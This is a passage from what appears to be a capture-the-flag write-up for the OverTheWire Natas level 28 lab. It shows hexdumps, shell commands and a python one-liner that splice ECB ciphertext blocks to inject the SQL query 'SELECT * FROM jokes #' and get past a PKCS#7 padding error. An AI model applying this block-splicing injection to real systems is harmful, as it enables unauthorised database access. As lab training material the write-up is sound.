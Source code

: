 00000060: f34d f339 c69e dce1 1f66 50bb ced6 2702  .M.9.....fP...'.
{% endhighlight %}

And our oracle window:

{% highlight plain_text %}
00000030: eaf5 0dd7 68f1 418c 5dde 5c5f d3d3 c08c ....h.A.].\_....
00000040: 7b39 deba 42d1 c907 f7be 64d4 9b0f 21f6 {9..B.....d...!.
{% endhighlight %}

The final result is a bytestring of &#8220;de5b990ac1d04c6547da89610dc8680f39a7ae9df9901b5e334a484231dc3482&#8221;. To use this, it must be encoded back into a base64 string to send to &#8220;/search.php&#8221;. Use `echo “eaf50dd768f1418c5dde5c5fd3d3c08c7b39deba42d1c907f7be64d49b0f21f6” | xxd -r -p | base64`

However, when trying to send the new query, it gives an error, &#8220;Incorrect amount of PKCS#7 padding for blocksize&#8221;.

Let&#8217;s see. PKCS #7 is described in RFC 5652 (Cryptographic Message Syntax).

The padding scheme itself is given in section <a href="http://tools.ietf.org/html/rfc5652#section-6.3" rel="noreferrer">6.3. Content-encryption Process</a>. It essentially says: append that many bytes as needed to fill the given block size (but at least one), and each of them should have the padding length as value.

Thus, looking at the last decrypted byte we know how many bytes to strip off. (One could also check that they all have the same value.)

This basically means we are sending the wrong length, since we don&#8217;t want any cryptographic padding.

To fix this, we need to send the last part of the original encrypted query instead of just the middle window part. To make it work with the SQL we want to execute, add a comment character on the end to ignore whatever else may be in the encrypted part.

The corrected data should look like this:

{% highlight plain_text %}
root@kali:~/otw/natas# python -c "print('.'*10 + 'SELECT * FROM jokes #' + ' '*11)" | urlencode | natas28
Sending: ..........SELECT%20%2A%20FROM%20jokes%20%23%20%20%20%20%20%20%20%20%20%20%20
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1026  100   944  100    82    412     35  0:00:02  0:00:02 --:--:--   447
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPKOGw9HPNy3SNDiT1Atyyb%2B6vUN12jxQYxd3lxf09PAjAmOGYfT%2FZBosXI1SRye%2FjRzil%2F7SkUAJGd1F1rllrvW803zOcae3OEfZlC7ztYnAg%3D%3D
base64: invalid input
00000000: 1be8 2511 a7ba 5bfd 578c 0eef 466d b59c  ..%...[.W...Fm..
00000010: dc84 728f dcf8 9d93 751d 10a7 c75c 8cf2  ..r.....u....\..
00000020: 8e1b 0f47 3cdc b748 d0e2 4f50 2dcb 26fe  ...G&lt;..H..OP-.&.
00000030: eaf5 0dd7 68f1 418c 5dde 5c5f d3d3 c08c  ....h.A.].\_....
00000040: 098e 1987 d3fd 9068 b172 3549 1c9e fe34  .......h.r5I...4
00000050: 738a 5ffb 4a45 0024 6775 175a e596 bbd6  s._.JE.$gu.Z....
00000060: f34d f339 c69e dce1 1f66 50bb ced6 2702  .M.9.....fP...'.
root@kali:~/otw/natas# echo "eaf50dd768f1418c5dde5c5fd3d3c08c098e1987d3fd9068b17235491c9efe34738a5ffb4a4500246775175ae596bbd6f34df339c69edce11f6650bbced62702" | xxd -r -p | base64
6vUN12jxQYxd3lxf09PAjAmOGYfT/ZBosXI1SRye/jRzil/7SkUAJGd1F1rllrvW803zOcae3OEfZlC7ztYnAg==
{% endhighlight %}
